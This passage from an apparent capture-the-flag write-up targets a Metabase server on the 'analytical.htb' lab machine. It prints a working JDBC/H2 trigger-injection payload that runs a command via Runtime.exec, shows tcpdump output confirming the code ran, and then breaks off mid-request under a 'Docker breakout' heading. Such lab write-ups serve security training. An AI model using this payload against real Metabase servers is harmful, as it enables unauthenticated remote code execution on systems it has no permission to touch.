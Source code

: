 ```
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('ping -c 4 10.10.14.177')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

```
┌──(kali㉿kali)-[~]
└─$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
11:40:37.304882 IP analytical.htb > 10.10.14.177: ICMP echo request, id 2, seq 0, length 64
11:40:37.304908 IP 10.10.14.177 > analytical.htb: ICMP echo reply, id 2, seq 0, length 64
11:40:38.312003 IP analytical.htb > 10.10.14.177: ICMP echo request, id 2, seq 1, length 64
11:40:38.312049 IP 10.10.14.177 > analytical.htb: ICMP echo reply, id 2, seq 1, length 64
11:40:39.309406 IP analytical.htb > 10.10.14.177: ICMP echo request, id 2, seq 2, length 64
11:40:39.309420 IP 10.10.14.177 > analytical.htb: ICMP echo reply, id 2, seq 2, length 64
11:40:40.309391 IP analytical.htb > 10.10.14.177: ICMP echo request, id 2, seq 3, length 64
11:40:40.309405 IP 10.10.14.177 > analytical.htb: ICMP echo reply, id 2, seq 3, length 64
```

By testing with a simple `ping` command, we confirmed that the RCE was successful. Our box received ping responses from the target, validating the presence of the remote code execution.

# DOCKER BREAKOUT

```
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Connection: close
Referer: http://data.analytical.htb/auth/login?redirect=%2F
Cookie: metabase.DEVICE=4dfa8070-4391-4a8d-b301-b402e4c0b274
Content-Length: 781

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
```